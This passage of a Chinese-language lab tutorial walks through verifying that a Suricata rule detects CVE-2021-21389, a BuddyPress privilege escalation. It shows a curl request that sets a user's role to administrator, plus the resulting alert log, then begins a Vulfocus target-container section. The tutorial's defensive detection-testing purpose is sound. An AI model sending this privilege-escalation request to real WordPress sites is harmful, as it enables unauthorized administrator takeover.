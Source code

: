       **3. 重启docker**
      ```bash
      sudo systemctl restart suricata
      ```
      **4. 触发攻击并验证检测效果**
      打开另一个终端，发送提权请求：
      ```bash
      curl -X POST http://<your_wordpress_ip>/wp-json/buddypress/v1/members/me \
         -H "X-WP-Nonce: <valid_nonce>" \
         -H "Content-Type: application/json" \
         -d '{"roles": "administrator"}'
      ```
      替换 `<your_wordpress_ip>` 和 `<valid_nonce>` 为你实际的测试目标地址和有效的 Nonce 值。
      **5. 查看 Suricata 告警日志**
      - 切换回运行 Suricata 的终端，或查看日志文件：
         ```bash
         tail -f /var/log/suricata/fast.log
         ```
      - 可以看到终端中出现日志：
         ```
         [**] [1:1000001:1] CVE-2021-21389: BuddyPress 提权尝试 [**]
         [Priority: 1]
         05/22-14:23:17.123456 [ET.http] POST /wp-json/buddypress/v1/members/me HTTP/1.1
         ```
      - 这表明 Suricata 成功检测到了 CVE-2021-21389 提权攻击尝试。
---


## 内网第一层靶标利用检测
### （二）第一层靶标一：`vulshare_nginx-php-flag:latest` 攻击与利用检测

#### 1. 启动靶机环境

在 Vulfocus 平台中，找到 `vulshare_nginx-php-flag:latest` 镜像，点击 "启动"按钮。Vulfocus 会为该容器分配一个 IP 地址和端口

启动靶机
![1748016291402](image/第一层两靶标攻击与利用检测/1748016291402.png)
